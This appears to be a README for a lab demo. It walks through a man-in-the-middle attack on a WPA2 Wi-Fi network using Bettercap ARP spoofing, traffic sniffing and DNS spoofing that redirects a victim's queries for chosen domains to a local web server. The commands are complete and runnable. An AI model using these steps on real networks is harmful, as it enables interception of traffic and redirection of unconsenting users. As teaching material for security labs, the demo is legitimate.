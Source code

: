 # Man in the Middle (MitM)

This demo shows how to achieve a successful Man-in-the-Middle attack leveraging ARP Spoofing in a WIFI WPA2 network.

This Demo is a continuation of [WIFICracking](../WIFICracking/README.md) demo. Your Kali Network has to be connected to the network to intercept the traffic of our victim

## Attack!

1. First, connect the Kali VM to the target network

```bash
sudo nmtui # Use the network manager
sudo ip link set eth0 down # Disable Eth0

ping google.es # make sure you are connected to the network
```

2. Start Bettercap and perform a network probe to find potential targets

```bash
sudo bettercap --iface wlan0

> net.probe on
> net.show
```

![](./img/scan_cap.png)

3. We found our target! `192.168.254.102`, now we will perform an ARP Spoofing, but before we need to configure Kali VM to forward requests to the gateway comming from our target. Otherwise, our victim will lack from internet connectivity

> Run the following commands in a new shell

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

4. Configure and start the ARP Spoofing with bettercap

```bash
> set arp.spoof.targets 192.168.254.102
> arp.spoof on
```

5. Start sniffing the traffic to verify the MitM attack is successful

```bash
> set net.sniff.verbose false
> net.sniff on
```

![](./img/arpsoof.png)

6. Now, let's have some fun :) Using DNS Spoofing we will redirect our victim queries to a local http service hosted in our Kali VM

7. Start the HTTP Server with Python in a new shell

```bash
cd server
python3 -m http.server 80 --bind 0.0.0.0
``` 

8. Configure and start the dns spoofing agent

```bash
set dns.spoof.domains upc.edu,test.edu
set dns.spoof.addresses 192.168.254.186 # IP Kali VM
dns.spoof on
```

![](./img/dnsspoof.png)

> Bettercap reports fake dns responses are being generated whenever the victim browse to one off the spoofed domains. Redirecting the query to the local HTTP service

![](./img/fakeservice.jpeg)


## Cleanup

* Remove the routing rules

```bash
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -D POSTROUTING -o wlan0 -j MASQUERADE
```

* Restore internet connectivity

```bash
sudo ip link set eth0 up
```

## References

* https://sankalppatil12112001.medium.com/bettercap-basics-your-ultimate-guide-to-network-penetration-testing-1d6b087a8f31
* https://github.com/frostbits-security/MITM-cheatsheet